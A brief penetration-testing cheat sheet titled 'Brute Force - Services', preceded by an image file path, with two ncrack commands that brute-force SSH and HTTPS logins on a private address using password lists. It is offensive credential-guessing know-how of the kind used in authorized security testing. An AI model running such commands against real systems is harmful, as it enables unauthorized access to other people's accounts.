 # Brute Force - Services

```ncrack -u user -P password_list.txt -p ssh 192.168.1.1```

Run SSH brute force

```ncrack --user admin -P passwords.txt https://192.168.1.1:443```

Brute force HTTP(S) with password list and single user
